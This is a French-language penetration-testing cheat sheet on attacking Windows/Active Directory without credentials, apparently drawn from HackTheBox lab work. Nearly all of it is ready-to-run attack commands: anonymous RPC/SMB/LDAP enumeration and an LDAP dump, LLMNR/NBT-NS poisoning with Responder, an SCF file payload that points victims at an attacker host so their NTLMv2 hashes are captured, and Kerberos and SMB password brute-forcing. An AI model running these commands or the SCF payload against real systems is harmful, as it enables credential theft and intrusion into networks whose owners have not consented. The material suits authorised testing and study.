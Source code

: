 # Attaques Windows sans identifiants

### 1. Exploitation du null bind

> Exploitation des services autorisants la connexion sans identifiants
>
> Objectifs : récupérer des informations

#### 1.1. Accès RPC anonyme

> Connexion anonyme à l'annuaire de l'AD.
>
> Objectifs : par exemple, consulter la liste des utilisateurs du domaine.

``` bash
$ rpcclient -p <PORT> -U "" -N <IP>
```

Voir [rpcclient](./rpcclient.md) pour consulter les actions réalisables.

#### 1.2. Accès SMB anonyme

> Objectifs : Accéder à un share SMB sans idenfiants

```bash
$ smbclient -L '\\IP' -U ''%''

$ crackmapexec smb <IP> -u '' -p '' --shares
```

#### 1.3. Accès LDAP anonyme (LDAP anonymous bind)

> Objectifs : lire des parties du LDAP

```bash
# Avec nmap
$ nmap -n -sV --script "ldap* and not brute" <IP_LDAP>

# Avec python
$ python3          
Python 3.9.9 (main, Nov 16 2021, 10:24:31) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ldap3
>>> server = ldap3.Server('10.10.11.129', get_info = ldap3.ALL, port=389)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
# Si false, pas exploitable
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
# Si false, pas exploitable
```

Si exploitable, dump l'intégralité du LDAP :

```bash
$ ldapdomaindump <IP_LDAP>
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```



### 2. Connexion anonyme

> Différent d'une session nulle.
>
> Références :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852200(v=ws.11)
> - https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-anonymous-logon

#### 2.1. Lister les shares de manière anonyme

> Objectif : lister les shares d'une machine

```bash
$ smbclient -L '\\dc01.timelapse.htb\' -N
# OU
$ crackmapexec smb <IP_DC> -u 'a' -p '' --shares  
```

#### 2.2. Connexion à un share acceptant la connexion anonyme

> Objectif : se connecter à un share

```bash
$ smbclient -N  \\\\dc01.timelapse.htb\\<Share_READABLE>
```



### 3. LLMNR/NBT-NS (MITM)

> Attaque Man-In-The-Middle, consistant à intercepter se faire passer pour la ressource demandée afin que la machine s'authentifie sur nous.
>
> LLMNR : Protocole de résolution de nom, utilisé pour chercher un FQDN sur le réseau afin de s'y connecter. 
>
> Ordre de recherche DNS par la machine : base locale (/etc/hosts) > LLMNR > serveur DNS (/etc/resolv.conf).
>
> Objectifs : récupérer le hash Net-NTLMv2 pour le craquer et obtenir le mot de passe de l'utilisateur (pas de pass-the-hash).

```bash
$ sudo responder -I eth0 -wFv
```



### 4. Upload de fichier SCF

> Dans le cas où un upload de fichier se fait sur un partage SMB et qu'une personne va regarder les fichiers uploadés
>
> Objectifs : Récupérer le hash NTLMv2 de l'utilisateur consultant le fichier uploadé

```bash
# payload.scf à upload
[Shell]
Command=2
IconFile=\\<IP_HOTE>\share\test.ico
[TaskBar]
Command=ToggleDesktop

# récupération du hash sur l'Hôte
$ sudo responder -wrf --lm -v -I tun0
```



### 5. Bruteforce

> Quand il n'y a plus rien d'autre à faire
>
> Objectif : obtenir un compte du domaine

- **Bruteforce d'un nom d'utilisateur :**

```bash
# Bruteforce pour obtenir un nom d'utilisateur valide auprès du ldap
$ nmap -n -sV --script ldap-brute -p 389,636 --script-args userdb=<USER_LIST> --script-args ldap.base='"dc=search,dc=htb"' <IP_LDAP>

# Bruteforce pour obtenir un nom d'utilisateur valide en passant par le protocole Kerberos (pré-authentification)
$ kerbrute userenum -d <DOMAIN.COM> <USERNAME_WORDLIST> --dc <DOMAIN_CONTROLLER>
```

- **Bruteforce d'un mot de passe :**

```bash
# Bruteforce d'un mot de passe d'un utilisateur connu via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <DOMAIN_CONTROLLER> -d <DOMAIN.COM> <PASSWORD_WORDLIST> <USER_VALIDE>    

# Bruteforce d'un mot de passe d'un utilisateur connu sur un partage SMB
$ crackmapexec smb <IP_DC> -u <USERS_VALIDES_WORDLIST> -p <PASSWORD_WORDLIST> --continue-on-success (pour parcourir toute la liste des utilisateurs fournies)
```

